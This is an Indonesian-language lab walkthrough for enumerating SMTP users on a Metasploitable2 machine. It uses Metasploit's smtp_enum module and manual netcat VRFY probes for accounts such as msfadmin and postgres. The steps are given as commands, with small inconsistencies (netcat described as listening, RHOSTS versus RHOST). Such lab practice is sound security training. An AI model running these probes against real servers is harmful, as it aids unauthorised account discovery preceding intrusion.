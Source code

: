 # Exploit Port 25 (SMTP)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Cari modul untuk enumerasi user SMTP
```sh
search smtp_enum
```

- Dari hasil pencarian hanya ditemukan 1 modul, jadi langsung kita gunakan modul tersebut
```sh
use 0
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini semua parameter sudah terisi secara default kecuali parameter `RHOSTS`
```sh
show options
```

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

- Sebelum menjalankan exploit buka terminal baru dan jalankan netcat dengan listen port 25
```sh
nc <IP_metasploitable2> 25
```

- Jalankan modul tersebut
```sh
run
```

- Setelah netcat terhubung, verifikasi masing-masing user apakah dia terdaftar di SMTP server atau tidak. Jika statusnya reject maka user tersebut tidak terdaftar. Ketikkan quit untuk menghentikan `netcat`
```sh
VRFY mysql
VRFY daemon
VRFY postgresql
VRFY postgres
VRFY msfadmin
quit
```

- Modul berhasil dihentikan setelah netcat ditutup